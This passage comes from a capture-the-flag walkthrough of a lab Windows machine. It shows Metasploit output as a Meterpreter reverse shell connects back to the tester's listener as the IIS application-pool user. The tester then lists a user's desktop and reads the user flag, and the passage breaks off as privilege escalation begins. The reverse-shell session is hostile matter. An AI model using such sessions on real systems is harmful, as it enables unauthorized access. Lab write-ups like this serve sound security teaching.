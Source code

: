 ```bash
[*] Started reverse TCP handler on 10.10.17.28:1337 
[*] Sending stage (175174 bytes) to 10.10.10.82
[*] Meterpreter session 1 opened (10.10.17.28:1337 -> 10.10.10.82:49167)

msf6 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                     Information                       Connection
  --  ----  ----                     -----------                       ----------
  1         meterpreter x86/windows  IIS APPPOOL\DefaultAppPool @ SIL  10.10.17.28:1337
                                     O                                 9167 10.10.10.82

msf6 exploit(multi/handler) > sessions 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: IIS APPPOOL\DefaultAppPool
```

A shell spawned as the IIS user.

## User Flag

---

I can now get the user flag:

```bash
meterpreter > dir
Listing: c:\Users\Phineas\Desktop
=================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  300   fil   2018-01-05 23:53:19 +0100  Oracle issue.txt
100666/rw-rw-rw-  282   fil   2018-01-04 22:40:41 +0100  desktop.ini
100444/r--r--r--  34    fil   2018-01-04 22:41:14 +0100  user.txt

meterpreter > cat user.txt
1f**************************8021

```

I was able to get obtain the user flag.

# Privilege Escalation

---

In the same directory is a file Oracle issue.txt:
